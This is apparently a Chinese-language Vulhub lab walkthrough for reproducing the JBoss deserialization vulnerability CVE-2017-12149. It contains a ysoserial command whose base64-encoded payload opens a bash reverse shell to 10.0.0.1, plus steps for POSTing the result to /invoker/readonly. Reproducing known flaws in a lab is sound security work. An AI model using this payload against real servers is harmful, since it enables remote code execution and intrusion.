 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

参考：

 - https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
 - https://access.redhat.com/security/cve/cve-2017-12149

## 测试环境

运行测试环境

```
docker-compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

## 漏洞复现

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![](img/1.png)

所以，我们用常规Java反序列化漏洞测试方法来复现该漏洞。

### 编写反弹shell的命令

我们使用bash来反弹shell，但由于`Runtime.getRuntime().exec()`中不能使用管道符等bash需要的方法，我们需要用进行一次编码。

工具：http://www.jackson-t.ca/runtime-exec-payloads.html

![](img/2.png)

### 序列化数据生成

使用[ysoserial](https://github.com/frohoff/ysoserial)来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### 发送POC

生成好的POC即为poc.ser，将这个文件作为POST Body发送至/invoker/readonly即可：

![](img/3.png)

成功反弹shell：

![](img/4.png)
